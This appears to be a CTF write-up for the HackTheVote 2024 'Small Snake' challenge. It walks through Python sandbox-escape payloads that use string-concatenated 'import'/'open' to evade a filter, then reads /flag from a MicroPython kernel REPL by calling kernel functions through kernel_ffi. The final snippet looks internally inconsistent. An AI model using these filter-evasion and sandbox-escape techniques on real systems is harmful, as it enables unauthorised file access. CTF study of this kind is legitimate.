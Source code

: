 ```yaml
---
title: "HackTheVote 2024 - Small Snake"
date: 2024-11-05
description: "Python forensic ?!?!?"
draft: false
author: "hsw"
type: "post"
tags: [web]
categories: [Write-ups]
cover: 'https://avatars.githubusercontent.com/u/9358837?v=4'
translationKey: 'media'
stage: 'budding'
toc: true
---
```


## Introduction

This chall is kind of "forensic" but actually its not XD, takes me almost 2 days and "almost" solve this, fun and its worth a try!
You can deploy the chall [here](https://github.com/RPISEC/HackTheVote/tree/master/2024/forensics/small-snake).

## Overview

Firstly, you need a python script to bruteforce the input for initializing the challenge (ofc i used ChatGPT for that)

{{< figure src="/commons/ctfs/hackthevote2024/htv1.png" caption="Python script bruteforce setup" >}}

Here is the script

```python
import hashlib
import sys

# Function to find valid input with a given base string
def find_valid_input(base_string):
    input_counter = 0
    while True:
        input_str = str(input_counter)
        combined_string = base_string + input_str
        sha256_hash = hashlib.sha256(combined_string.encode()).hexdigest()
        if sha256_hash.endswith('000000'):
            return input_str, sha256_hash
        input_counter += 1

# Check if base string was provided in command-line arguments
if len(sys.argv) < 2:
    print("Usage: python script.py <base_string>")
    sys.exit(1)

# Get base string from command-line arguments
base_string = sys.argv[1]

# Find a valid input with the specified base string
valid_input, resulting_hash = find_valid_input(base_string)
print(f"Input: {valid_input}, SHA-256 Hash: {resulting_hash}")
```


{{< figure src="/commons/ctfs/hackthevote2024/htv2.png" caption="Challenge interface" >}}

At first glance, ofc we dunno what is this shit, after typed randomly sth that i knew that is python interpreter console.

{{< figure src="/commons/ctfs/hackthevote2024/htv4.png" caption="Python interpreter console" >}}

Then, after spending all the morning to find out what i need to do, i dive into all [builts-in python function](https://docs.python.org/3/library/functions.html), then i have that 2 key functions: `eval` and `exec` that helps us bypass the validation, and also the environment variable. I've spent all the day to test everything that i could do:

```python
> var = '_'
> var2 = 'o'+'p'+'e'+'n'
> var4 = 'i'+'m'+'p'+'o'+'r'+'t'
> var3 = var + var + var4 +var+var
> var5 = var3 + "('builtins')."
> var1 = "with " + var5 + var2 + "('/flag', 'r') as f: result = f.read(); print(result)"
> print(var1)
 with __import__('builtins').open('/flag', 'r') as f: result = f.read(); print(result)
> exec(var1)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 AttributeError: 'NoneType' object has no attribute '__exit__'
```
This is the payload that i trying to do, but that not that simple, after diving more deeper, i found that this console using micropython and all modules that available by the [commit](https://github.com/micropython/micropython/commits/master/?since=2021-11-17&until=2021-11-17)

```python

var = 'he'+'lp()'
> eval(var)
 Welcome to MicroPython!

 For online docs please visit http://docs.micropython.org/

 Control commands:
   CTRL-A        -- on a blank line, enter raw REPL mode
   CTRL-B        -- on a blank line, enter normal REPL mode
   CTRL-C        -- interrupt a running program
   CTRL-D        -- on a blank line, exit or do a soft reset
   CTRL-E        -- on a blank line, enter paste mode

 For further help on a specific object, type help(obj)

> var="he"+"lp('modules')"
> eval(var)
 __main__          kernel_ffi        uctypes           ustruct
 _thread           micropython       uerrno            usys
 builtins          uarray            uio               utime
 gc                ucollections      umachine
 Plus any modules on the filesystem

```

module `uio` seems suspicious, but still not works :(

```python
> var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' uio'
> var2 = 'o'+'p'+'e'+'n'
> exec(var4)
> var1 = "content = uio." + var2 + "('/flag', 'r').read()"
> exec(var1)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 AttributeError: 'NoneType' object has no attribute 'read'


 > var3 = 'for line in uio.' + var2 + '("../../../..flag", "r"): print(line)'
> print(var3)
 for line in uio.open("../../../..flag", "r"): print(line)
> exec(var3)
 Traceback (most recent call last):
   File "<stdin>", line 1, in <module>
   File "<string>", line 1, in <module>
 TypeError: 'NoneType' object isn't iterable

```

I find everything inside each module, even `kernel_ffi` (I thought that everything here just relevant to the hardware, i dont know that is the thing brings us to the flag TvT):


```python
var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' kernel_ffi'
> exec(var4)
> var = 'd'+'ir'
> eval(var+'(kernel_ffi)')
 ['__class__', '__name__', 'bytes', 'str', 'KP_ARGS_MODIFY', 'KP_ARGS_WATCH', 'KP_REGS_MODIFY', 'KP_REGS_WATCH', 'Symbol', 'auto_globals', 'callback', 'current', 'kmalloc', 'kprobe', 'p16', 'p32', 'p64', 'p8', 'symbol']

```

Before that, somehow i leaked the bios of the micropython kernel, i also tried to find this BIOS's (vulnerability)[https://github.com/advisories/GHSA-7533-c28p-jp9p] but stills hopeless or i didnt found the right things :) 

```python
var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' builtins'
var = 'd'+'ir'
 eval(var+'(builtins.OSError.' +var1+var1+'class'+var1+var1+')')



 micropython.mem_info()
 mem: total=43516, current=16080, peak=17581
 stack: 1136 out of 15204
 GC: total: 8291328, used: 16928, free: 8274400
  No. of 1-blocks: 77, 2-blocks: 10, max blk sz: 32, max free sz: 258570




 fatal error 'nlr_jump_fail', killing current task 'a'
[  180.844640] Kernel panic - not syncing: Attempted to kill init! exitcode=0x00000000
[  180.846569] CPU: 0 PID: 1 Comm: a Tainted: G           O      5.4.0 #1
[  180.847441] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.2-debian-1.16.2-1 04/01/2014
[  180.848628] Call Trace:
[  180.850390]  dump_stack+0x50/0x70
[  180.850623]  panic+0xf6/0x2b7
[  180.850924]  do_exit.cold+0x4e/0xfb
[  180.856332]  die+0x4f/0x50 [mpy]
[  180.858949]  ? nlr_jump_fail+0xc/0x10 [mpy]
[  180.859861]  ? nlr_jump+0x1e/0x57 [mpy]
[  180.860036]  ? mp_raise_msg+0x12/0x20 [mpy]
[  180.860367]  ? m_malloc_fail+0x20/0x40 [mpy]
[  180.861050]  ? m_malloc+0x44/0x50 [mpy]
[  180.861231]  ? vstr_init+0x20/0x30 [mpy]
[  180.861406]  ? device_ioctl+0x39/0x80 [mpy]
[  180.862574]  ? do_vfs_ioctl+0x3f0/0x650
[  180.863235]  ? ksys_ioctl+0x59/0x90
[  180.863489]  ? ksys_read+0x5a/0xd0
[  180.864077]  ? __x64_sys_ioctl+0x11/0x20
[  180.864382]  ? do_syscall_64+0x43/0x110
[  180.864671]  ? entry_SYSCALL_64_after_hwframe+0x44/0xa9
[  180.869655] Kernel Offset: 0x16400000 from 0xffffffff81000000 (relocation range: 0xffffffff80000000-0xffffffffbfffffff)
[  180.876970] ---[ end Kernel panic - not syncing: Attempted to kill init! exitcode=0x00000000 ]---
```

I also try possible payload on [HackTrick](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#read-file-with-builtins-help-and-license), but stills not works

```python

var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' builtins'
exec(var4)
var = '_'
var1 = 'he'+'lp'
eval(var1+'(builtins.dict.'+ var+var+'dict'+var+var+')')
eval(var1+'(builtins.dict.'+ var+var+'dict'+var+var+ '["license"]' ')')
=> KeyError: license
```

## Finish exploitation

Finally, i almost reach the crucial clue in the [micropython](https://github.com/Jongy/micropython/blob/linux-kernel/ports/linux-kernel/main.c) github (i remember that i just skimming all that shit, i thought that its just the hardware TvT)

Then after the contest ended, i know that the `symbol` method on modules `kernel_ffi` is used to call the exported functions or variables that are accessible for use by loadable kernel modules or other kernel components. There are function `filp_open` is a Linux kernel function used to read from a file represented by a file structure (struct file) in kernel space.


```python
    var4 = 'i'+'m'+'p'+'o'+'r'+'t'+ ' kernel_ffi'
    exec(var4)
    func = "filp_o"+"pen"
    ffi = kernel_ffi.symbol(func)
    file_path = "/flag"; flags = 0; mode = 0
    var2 = "file = filp_o"+"pen(file_path, flags, mode)"
    exec(var2)
    buffer = kernel_ffi.kmalloc(4096)
    kernel_read = kernel_ffi.symbol("kernel_read")
    pos = 0
    bytes_read = kernel_read(file, buffer, 4096, pos)
    data = kernel_ffi.str(buffer)
    print(data)
```

{{< epigraph >}}
flag{its_like_rust_in_the_kernel_but_better}
{{< /epigraph >}}

GGWP, that was amazing challenge, thank to the author `wait_what` from RPISEC for this chall (i still dont know why its even forensic.)
